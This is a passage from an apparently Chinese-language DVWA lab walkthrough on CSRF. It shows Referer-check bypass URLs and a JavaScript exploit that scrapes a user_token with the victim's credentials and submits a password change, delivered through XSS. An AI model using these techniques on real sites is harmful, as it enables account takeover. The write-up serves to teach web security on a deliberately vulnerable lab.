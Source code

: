 1. **文件名混淆 referer**

或者将上述 html 文件重命名为 `127.0.0.1.html`，然后访问如下 payload：

```payload
http://ip/127.0.0.1.html
```

这里有一个小细节，如果目标网站是 http 的话，那么 csrf 的这个 html 页面也要是 http 协议，如果是 https 协议的话 就会失败，具体自行测试。

1. **? 拼接混淆 referer**

```payload
http://ip/csrf.html?127.0.0.1
```

因为 ? 后默认当做参数传递，这里因为 html 页面是不能接受参数的，所以随便输入是不影响实际的结果的，利用这个特点来绕过 referer 的检测。

### High

首先来分析一下源码

```bash
# 检测用户的 user_token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

相对于 Low 级别，实际上就是增加了一个 token 检测，这样我们 CSRF 攻击的时候必须知道用户的 token 才可以成功。

关于 DVWA CSRF High 这里网上的文章也形形色色…

这一关思路是使用 XSS 来获取用户的 token ，然后将 token 放到 CSRF 的请求中。因为 HTML 无法跨域，这里我们尽量使用原生的 JS 发起 HTTP 请求才可以。下面是配合 DVWA DOM XSS High 来解题的。

1. **JS 发起 HTTP CSRF 请求**

首先新建 csrf.js 内容如下：

```javascript
// 首先访问这个页面 来获取 token
var tokenUrl = 'http://127.0.0.1:8888/vulnerabilities/csrf/';

if(window.XMLHttpRequest) {
    xmlhttp = new XMLHttpRequest();
}else{
    xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}

var count = 0;
xmlhttp.withCredentials = true;
xmlhttp.onreadystatechange=function(){
    if(xmlhttp.readyState ==4 && xmlhttp.status==200)
    {
          // 使用正则提取 token
        var text = xmlhttp.responseText;
        var regex = /user_token\' value\=\'(.*?)\' \/\>/;
        var match = text.match(regex);
        var token = match[1];
          // 发起 CSRF 请求 将 token 带入
        var new_url = 'http://127.0.0.1:8888/vulnerabilities/csrf/?user_token='+token+'&password_new=111&password_conf=111&Change=Change';
        if(count==0){
            count++;
            xmlhttp.open("GET",new_url,false);
            xmlhttp.send();
        }
    }
};
xmlhttp.open("GET",tokenUrl,false);
xmlhttp.send();
```
